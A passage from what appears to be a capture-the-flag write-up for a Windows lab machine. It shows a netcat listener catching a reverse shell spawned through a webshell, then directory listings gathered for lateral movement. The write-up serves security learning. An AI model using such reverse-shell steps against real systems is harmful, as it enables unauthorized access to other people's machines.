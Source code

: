 We are now ready to pass it as a command to our webshell:



```bash
# opening a listener to catch the shell
$ sudo nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.250] 53288
whoami
analysis\svc_web
PS C:\inetpub\internal\dashboard\uploads>
```

## Lateral movement

Upon exploring the target, there are some things to note down:

```powershell
PS C:\inetpub\internal\dashboard\uploads> dir c:\


    R?pertoire?: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/06/2023     10:01                inetpub
d-----       05/11/2022     20:14                PerfLogs
d-----       08/05/2023     10:20                PHP
d-----       23/01/2024     22:13                private
d-r---       18/11/2023     09:56                Program Files
d-----       08/05/2023     10:11                Program Files (x86)
d-----       09/07/2023     10:57                Snort
d-r---       26/05/2023     14:20                Users
d-----       24/01/2024     01:15                Windows
-a----       24/01/2024     08:08         363136 snortlog.txt

PS C:\inetpub\internal\dashboard\uploads> dir c:\users


    R?pertoire?: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/01/2024     10:33                Administrateur
d-----       05/01/2024     21:29                jdoe
d-r---       07/05/2023     21:44                Public
d-----       26/05/2023     11:02                soc_analyst
d-----       26/05/2023     14:20                webservice
d-----       23/05/2023     10:10                wsmith
```
